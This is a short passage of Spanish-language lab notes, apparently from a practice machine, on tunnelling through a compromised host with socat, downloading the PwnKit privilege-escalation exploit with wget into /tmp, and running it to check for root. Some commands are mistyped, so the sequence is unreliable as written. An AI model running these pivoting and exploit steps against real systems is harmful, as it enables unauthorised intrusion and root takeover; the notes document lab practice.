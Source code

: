 ==En el entunelamiento Wpwn está interpretando sus servicios en mi máquina de manera igual, así que con otro socet haremos otro túnel que comunique para descargar el PwnKit.

```
socat TCP-LISTEN:4545,fork TCP:192.168.153.129:2324
socat TCP-LISTEN:1212,fork TCP:192.168.153.129:3131
cd /tmp/
wget http://10.10.18.128:1212\PwnKit
```

==

![[Captura de pantalla 2023-06-23 151532.png]]

```
Chmod -x PwnKit
./pwkit 
Whoami 
```

![[Captura de pantalla 2023-06-23 151753.png]]

